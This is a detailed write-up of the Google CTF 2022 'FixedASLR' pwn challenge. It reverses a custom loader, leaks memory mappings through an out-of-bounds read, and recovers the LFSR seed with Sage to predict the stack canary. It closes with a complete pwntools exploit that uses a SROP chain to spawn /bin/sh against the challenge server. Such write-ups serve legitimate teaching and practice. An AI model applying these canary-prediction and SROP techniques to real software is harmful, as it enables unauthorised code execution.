


## **FixedASLR**

was a pwn challenge from Google CTF 2022 edition.

I played it with **Water Paddler**, as a pwner.

A very interesting and well made challenge.

we were provided with a binary named `loader`, and 7 object files, named:

`basic.o  debug.o  game.o  guard.o  main.o  res.o  syscalls.o`

So, For the glory of the almighty PWN Spirit in the sky, I will try to make a more detailed write-up than usual.

so let's start at the beginning (as a *beginning* is a very delicate time)

------


1. ### Loader binary inner working.

**so let's start analyzing the `loader` binary working:**


As we can see in the pic above, it is a non-PIE executable (so mapped at address 0x400000), with no more protections except stack non executable.

**let's have a look at the loader entry function `start()`:**


First the function `sys_getrandom()`, use `getrandom` syscall, to itinialize the `rand_state` var with 8 bytes of random data coming from `/dev/urandom` kernel device.

**let's see the next function , `init_stack_guard()`:**


Ok, we can see that `init_stack_guard()` function mmap a page RW, and with `prctl(ARCH_SET_FS, mem)`  set the 64-bit base for the `FS` register to this zone. The memory zone pointed by `FS` register is generally the **Thread Local Storage** zone, that contains variables related to the binary, and particularly the stack canary, used for stack protection.

if you don't know what is the **Thread Local Storage**, you can read this:  https://chao-tic.github.io/blog/2018/12/25/tls

Then the function read 64bits of pseudo randomness from `rand()` function, and write that 64bit value to the canary in our **TLS** zone.

We will come back to the creation of the canary later on.. for now let's see the next functions in `start()`

we can see that a `files[]` table is parsed, and it's content passed in these three functions successively:

+ `load_o_phase_1()`

+ `load_o_phase_2()`
+ `load_o_phase_final()`

the `files[]` table contains pointers for the object file names:


I will not go in full details in the inner working of these 3 functions, but I will resume their working like this.

for each `table[]` entry, the file is loaded,  the `aslr_get_addr()` generate a random mapped address zone, where the file is  relocated and mapped.

let's have a quick look at `aslr_get_addr()`


We can see that the `aslr_get_addr()` get 12bits of randomness from `rand()` function, shifted that value 28bits left to calculate the mapping address of the file.

ok, that was a quick resume of the mapping process.

After that , the `start()` function clear various memory zones, and jump to the `pivot_to_main()` function.

the `pivot_to_main()` function map a RX zone , and copy a small shellcode in it:



this small shellcode, unmap the 0x400000 zone where loader binary is mapped,

and jump to the `main.o` entry mapped in memory, then will call `exit` syscall on return.

Ok now, the loading of the object files is finished, the binary loader was unmapped from memory, the canary was created,

lets start gdb, and see what the memory mapping will look at this point. (the address will change each time off course):


Ok we can see the 7 first `r-x` mappings for each files in `files[]` table, each with eventually its `rw` zone for data.

(In the picture above they are not in the same order that they came in `file[]` table, but sorted from smaller to bigger addresses..)

 we can see the high address `0x7f62d61132000` where the loader `pivot_to_main()` shellcode was copied.

then zone after (`0x7f62d6133000`) is the `fs` register pointed zone, that contains the generated canary.

then comes `stack`, `vvar`, `vdso`, `vsyscall`,  standard mappings...

That's an example of the state at the end of the `loader` binary process, addresses will vary off course every time...

------

2. ### What happens in the object files (and eventually in the Darkness) ???

Now that we have finish studying the loading process, let's see what does these object files do..

For easier reversing/decompiling, we will link them to a binary with gcc,  with command:

`gcc *.o -o chall`

This will produce a `chall` binary, that we can reverse and execute, but the memory mapping will be different off course of object files load via `loader` binary.

so let's start with the `main()` entry function:



not much happens here, just banner showing, loop to `menu()` function until it returns 0, then show winner's name, and return.

so let's see this `menu()` function:


Ok it prints the game main menu, then jump to various functions according user's choice.

so let's have a look to these functions, some of them have vulnerabilities that we will exploit.

first let's study `see_scoreboard()` function:


This function has a vulnerability, an out of bounds read.

The index you enter as an ascii number, is not verified for any bound, so you can leak with this read any 64 bit value that you can reach at address `game_scoreboard + index`

`game_scoreboard` is a table that record score obtained during the game , there is 10 entries normally.

We will use this vulnerability to leak different mapping addresses of the different object files.

let's have a look at the `game()` function:


Well the game is more a pretext, it just generates two random numbers, and you have to enter their sum,

if you failed (shame on you!), it will call the `check_scoreboard()` function and returns, if you succeed, it increases score and continues...

so let's have a look at the `check_scoreboard()` function:


This function store your score in the scoreboard and make room for it in it.

Then it will ask for the player's name to store it in the scoreboard,

so let's have a look at `get_player_name()` function:


We can see that it ask first for the `name` size, and if the size entered is bigger than the `name` buffer on stack,

it prints a warning message, but does not returns or exit..

So basically, in the next read, we have a classic **buffer overflow**.

This is the vulnerability we will use to have code execution.

BUT, to have code execution,  we have an obstacle to overcome , the canary...

------

3. ### Where are we in memory ?  First let's get our leaks

So first we studied what addresses we can reach with the OOB read vulnerability that we found in the `see_scoreboard()` function.

we found, that we can found addresses of almost all ASLR random mappings, except the one with all the helpers gadgets (no luck), which is also the last one mapped.

We can not reach any stack addresses too, and that is more annoying to find the canary value.

As canary is only present on stack, and in the memory zone pointed by `fs` register.

to leak the various mapping addresses we use this python code:

```python
# leak memory zone mappings (and so 72 bits of LFSR output)
leak1 = see_score(0x200) - 0x2060
print("LEAK1: " + hex(leak1))
leak2 = see_score(-1017) - 0x1000
print("LEAK2: " + hex(leak2))
leak3 = see_score(-1019) - 0x1000
print("LEAK3: " + hex(leak3))
leak4 = see_score((leak3 - leak1 - 0x2000 + 8)>>3) - 0x119c
print("LEAK4: " + hex(leak4))
leak5 = see_score((leak3 - leak1 - 0x2000 + 0x2000)>>3) - 0x1000
print("LEAK5: " + hex(leak5))
leak6 = see_score((leak4 - leak1 - 0x2000 + 0x38)>>3) - 0x10ba
print("LEAK6: " + hex(leak6))
```

so we know now were we are in memory, but we found no way to leak the canary,

and we absolutely need the canary value

So after passing some time reading, and reading, and re-reading the program code.. I arrived to the conclusion that we can not leak the canary..

So I start to study the random generator that the `loader` binary use to generate it...

------

4. ### **A Study in Randomness..**

Well randomness.. at a higher level, some see order in it.. 

let's go back to the `loader` binary, and let's see how the random bits are generated..

first the `rand()` function:


then the `rand_get_bits()` function:


What we have here? it is a 64bit **LFSR**.

A program that generate pseudo random numbers, from an initial state `rand_state`

so, two question come to my mind:

+ are this little bit spitting things secure ?

+ is it possible to recover initial state from a known output ?

I asked a friend (*macz*) that is good in crypto, these two crucial questions..

And he answers me in substance, yes it's possible to recover the initial state of this kind of **LFSR** with at least 64bits of know output.. and, wait a minute, I must have a SAGE script to do that somewhere... that was good news..

But, do we have a known output of this **LFSR** ? 

We don't have the first 64bits output (the canary) , we don't know the initial state in `rand_state`, that is read from `/dev/urandom`  and hardly guessable probably,

But we have the 6 leaked memory mappings, each of this mappings use 12bits of the **LFSR** , so in total we have 72bits of the **LFSR** output, just after the first 64bits from the canary.

I fire gdb again to see the correspondance between our leaked mapping addresses and the **LFSR** output, and write some python code to extract the 64bits LFSR output next the canary, like this:

```python
# reorder 12bits output from each ASLR to a 64bit value
leaks = (leak1>>28)
leaks = (leaks<<12) | (leak6>>28)
leaks = (leaks<<12) | (leak2>>28)
leaks = (leaks<<12) | (leak4>>28)
leaks = (leaks<<12) | (leak3>>28)
leaks = (leaks<<4) | (leak5>>36)&0xf
```

to try the original SAGE solve script (that you can find in my github),

I need to output the `loader` binary `getrandom()` output, and **LFSR** output , to verify that the calculation works..

for this I write a 10mn qiling script (best tool for reversing), that hook various functions used by the loader binary..

```python
import sys
from struct import *

sys.path.append("..")
from qiling import *
from qiling.const import QL_VERBOSE
from unicorn.unicorn_const import UC_MEM_WRITE
from unicorn.unicorn_const import UC_MEM_READ

def myhook(ql: Qiling) -> None:
  print('asked for '+str(ql.arch.regs.rdi)+' bits of random')

def canary_gen(ql: Qiling) -> None:
  print('canary generated = '+hex(ql.arch.regs.rdi))

def myhook_ret(ql: Qiling) -> None:
  print('LFSR returned: '+hex(ql.arch.regs.rax))

def getrandom(ql: Qiling) -> None:
  buff = ql.unpack64(ql.mem.read(ql.arch.regs.rdi, 8))
  print('syscall getrandom returned: '+hex(buff))

def my_sandbox(path, rootfs):
    ql = Qiling(path, rootfs, verbose=QL_VERBOSE.OFF)
    ql.hook_address(myhook, 0x40146c)
    ql.hook_address(myhook_ret, 0x4014ad)
    ql.hook_address(canary_gen, 0x401064)
    ql.hook_address(getrandom, 0x401296)
    ql.run()

if __name__ == "__main__":
    my_sandbox(["./examples/rootfs/x8664_linux/bin/loader"], "./examples/rootfs/x8664_linux")
```

you just have to copy it in the rootfs, with the object files,

then when you run it, it output the LFSR and random values:


ok let's try the sage script with these example values:

```python
import sage

L = companion_matrix(GF(2)['x']("x^64 + x^5 + x^3  + x^2 + 1"), format="bottom")
one = vector(GF(2),64,[0]*63 + [1])

F=GF(2,'z')

R.<k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63>=F['k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63,k64']
key = vector (R, [k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63])

a = L*key + one

clocks = 64 + 64 - 1

for i in range(clocks):
 a = L*a + one


kmat = matrix(R, 64,64)
for i in range(64):
 for j in range(64):
   kmat[i,j] = a[i].coefficient(key[j])

kvec = vector(R, 64)
for i in range(64):
  kvec[i] = a[i].constant_coefficient()

target = 0x19d28388ffd157ce
padlen = 64 -len( list(( ZZ(target).digits(base=2)[::-1] )))
c = vector(GF(2), [0]*padlen + list(( ZZ(target).digits(base=2)[::-1] )))
result = kmat.inverse() * (c-kvec)

print(hex(int(''.join(str(_) for _ in list(result )),2)))
```

you can see that in the sage script, I put in var `target` the 64 bits output that I got from qiling above (5*12bits + 4bits from the last 12bits)

let's try with sage:

```bash
sage test.temp.sage
0xf58a663dbfabf188
```

we can see that from these 64bits output from the **LFSR**, sage has been able to calculate the inital state of the **LFSR**,

`0xf58a663dbfabf188`

that is the same as the initial state in the qiling picture above, the one returner by getrandom()

CQFD, 

then we code the LFSR in python , and we can calculate the canary now that we can retrieve the initital_state..

------

5. ### Last but not least,  the exploitation.

Well, now that we know how to calculate the canary from the leaked **LFSR** output.

<u>We have a plan:</u>

1. leak all the memory mappings that we can, using the OOB read vulnerability in `see_scoreboard()` function
2. calculate the 64bits output by the **LFSR** from these mappings
3. calculate the inital state `rand_state` of the **LFSR** with sage
4. calculate the canary value with `rand_state`
5. play the dump game, and loose it
6. forge a payload with the canary and some rop gadgets from known memory zone
7. Use the buffer overflow in `get_player_name()` function to have code execution

I will pass quickly on the ROP we use,  it's a classic SIGROP shellcode, as we had little gadgets available to set registers,

you can have a look to the final exploit for it..

So here is the final exploit, with the sage script integrated and converted to python:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from sage.all import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./loader')

host, port = "fixedaslr.2022.ctfcompetition.com", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


def sa(s, d):
        p.sendafter(s, str(d).encode('utf-8'))
def sla(s, d):
	    p.sendafter(s, str(d).encode('utf-8')+b'\n')
        
def see_score(place):
        sla(b'?\n', 3)
        if (place < 0):
                place = place + 0x10000000000000000
        sla(b'?', place)
        p.recvuntil(b': ')
        leak = int(p.recvline().strip(), 10)
        return leak

# play a certain rounds of game
def play_game(rounds):
        sla(b'?', 1)		# choose play game
        for i in range(rounds):
                num1 = int(p.recvuntil(b' + ', drop=True).split(b'much is ')[1], 10)
                num2 = int(p.recvuntil(b' ', drop=True), 10)
                sla(b'?', num2 + num1)
        sla(b'?', 0)		# send wrong answer

# LFSR 64bit implementation
def rand_get_bit():
  global rand_state
  bit = (rand_state>>63)&1
  v1 = ((rand_state>>61)&1) ^ bit
  v2 = ((rand_state>>60)&1) ^ v1
  v3 = v2 ^ ((rand_state>>58)&1) ^ 1
  rand_state = ((rand_state<<1) | v3) & ((1<<64)-1)
  return (v3 & 1)

# return numbits of pseudo randomness
def rando(numbits):
  res = 0
  for i in range(numbits):
    res = (res<<1) | rand_get_bit()
  return res

# leak memory zone mappings (and so 72 bits of LFSR output)
leak1 = see_score(0x200) - 0x2060
print("LEAK1: " + hex(leak1))
leak2 = see_score(-1017) - 0x1000
print("LEAK2: " + hex(leak2))
leak3 = see_score(-1019) - 0x1000
print("LEAK3: " + hex(leak3))
leak4 = see_score((leak3 - leak1 - 0x2000 + 8)>>3) - 0x119c
print("LEAK4: " + hex(leak4))
leak5 = see_score((leak3 - leak1 - 0x2000 + 0x2000)>>3) - 0x1000
print("LEAK5: " + hex(leak5))
leak6 = see_score((leak4 - leak1 - 0x2000 + 0x38)>>3) - 0x10ba
print("LEAK6: " + hex(leak6))

# reorder 12bits output from each ASLR to a 64bit value
leaks = (leak1>>28)
leaks = (leaks<<12) | (leak6>>28)
leaks = (leaks<<12) | (leak2>>28)
leaks = (leaks<<12) | (leak4>>28)
leaks = (leaks<<12) | (leak3>>28)
leaks = (leaks<<4) | (leak5>>36)&0xf

# know we will use SAGE to calculate the initial state of the LSFR from its leaked output
L = companion_matrix(GF(2)['x']("x^64 + x^5 + x^3  + x^2 + 1"), format="bottom")
one = vector(GF(2),64,[0]*63 + [1])

F=GF(2 ,'z')

R = F['k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63,k64']; (k0, k1, k2, k3, k4, k5, k6, k7, k8, k9, k10, k11, k12, k13, k14, k15, k16, k17, k18, k19, k20, k21, k22, k23, k24, k25, k26, k27, k28, k29, k30, k31, k32, k33, k34, k35, k36, k37, k38, k39, k40, k41, k42, k43, k44, k45, k46, k47, k48, k49, k50, k51, k52, k53, k54, k55, k56, k57, k58, k59, k60, k61, k62, k63,) = R._first_ngens(64)
key = vector (R, [k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63])

a = L*key + one
clocks = 64 + 64 - 1

for i in range(clocks):
 a = L*a + one

kmat = matrix(R, 64 ,64)
for i in range(64):
 for j in range(64):
   kmat[i,j] = a[i].coefficient(key[j])

kvec = vector(R,64)
for i in range(64):
  kvec[i] = a[i].constant_coefficient()

padlen = 64  -len( list(( ZZ(leaks).digits(base=2 )[::-1] )))
c = vector(GF(2), [0]*padlen + list(( ZZ(leaks).digits(base=2)[::-1] )))
result = kmat.inverse() * (c-kvec)

# print initial_state returned by sage script
rand_state = int(''.join(str(_) for _ in list(result )),2)
print('result = '+hex(rand_state))

# now calculate first 64bit output of lfsr, which is the canary value
canary = rando(64)
print('canary = '+hex(canary))

# Gadgets for the srop shellcode
atou64 = leak3 + 0x3e0
syscall_ret = leak6 + 0x1002
name_addr = leak1 + 0x2180	  # name_addr + 0x8 points to "/bin/sh"
# generate srop frame
frame = SigreturnFrame()
frame.rip = syscall_ret
frame.rax = 0x3b
frame.rdi = name_addr + 8
# our payload
rop = p64(atou64) + p64(syscall_ret) + bytes(frame)
name = b'15AAA ; /bin/sh\x00' + b'A'*0x18 
name += p64(canary) + b'B'*8 + rop

# play some rounds of game
play_game(11)
# send our payload
p.sendlineafter(b'?\n', b'1024')
p.sendafter(b":", name)
# enjoy shell
p.sendline(b'id;cat flag')
p.interactive()
```

or see it in action??


*nobodyisnobody still pwning things...* (even in 2022)
